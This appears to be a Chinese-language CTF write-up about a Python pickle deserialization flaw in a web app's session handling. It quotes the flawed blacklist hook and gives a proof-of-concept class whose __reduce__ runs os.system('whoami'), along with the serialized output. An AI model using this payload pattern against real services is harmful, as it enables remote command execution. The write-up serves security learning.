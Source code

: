 ![flag](https://ob5vt1k7f.qnssl.com/yDw2L)


### python is the best language #2

考点：session处存在反序列化漏洞

`app/others.py` `FilterException`类`load`方法存在反序列化漏洞
```python
class FilterException(Exception):

    def __init__(self, value):
        super(FilterException, self).__init__(
            'the callable object {value} is not allowed'.format(value=str(value)))


def _hook_call(func):
    def wrapper(*args, **kwargs):
        print args[0].stack
        if args[0].stack[-2] in black_type_list:
            raise FilterException(args[0].stack[-2])
        return func(*args, **kwargs)
    return wrapper


def load(file):
    unpkler = Unpkler(file)
    unpkler.dispatch[REDUCE] = _hook_call(unpkler.dispatch[REDUCE])
    return Unpkler(file).load()
```


先测试一下序列化与反序列化过程可能产生的安全问题

- 序列化

```python
import os
from pickle import Pickler

class test(object):
    def __reduce__(self):
        return (os.system, ('whoami'))
evil = test()

def dump(file):
    pk = Pickler(file)
    pk.dump(evil)

with open('test', 'wb') as f:
    dump(f)
```
会将python对象序列化成字符串写入文件，类似这个样子
```
cnt
system
p0
(S'whoami'
p1
tp2
Rp3
.
```
